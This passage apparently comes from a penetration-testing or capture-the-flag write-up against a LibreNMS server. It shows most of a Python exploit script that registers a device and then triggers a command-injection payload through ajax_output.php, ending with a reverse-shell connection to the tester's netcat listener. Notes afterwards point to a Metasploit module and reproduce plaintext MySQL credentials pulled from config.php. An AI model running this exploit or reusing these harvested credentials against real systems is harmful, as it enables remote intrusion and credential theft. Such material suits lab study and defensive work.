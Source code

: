     # send the device creation request
    request = requests.post(
        full_url, data=request_body, cookies=cookies, headers=headers
    )
    text = request.text
    if "Device added" in text:
        print "[+] Device Created Sucssfully"
        return True
    else:
        print "[-] Cannot Create Device"
        return False


def request_exploit(url):
    params = {
        "id": "capture",
        "format": "text",
        "type": "snmpwalk",
        "hostname": hostname
        }

    # send the payload call
    request = requests.get(url + "/ajax_output.php",
        params=params,
        headers=headers,
        cookies=cookies
        )
    text = request.text
    if rhost in text:
        print "[+] Done, check your nc !"


if create_new_device(target):
    request_exploit(target)


################################
>> if above script is not working use metasploit module
>> simple search librenms on metasploit.

>> then found some mysql cridentilas in config.php file

### Database config
$config['db_host'] = 'localhost';
$config['db_port'] = '3306';
$config['db_user'] = 'librenms';
$config['db_pass'] = 'VLby8dGg4rvw33sg';
$config['db_name'] = 'librenms';
$config['db_socket'] = '';

>> now login into the mysql database.
>> but bad luck not found any interesting.
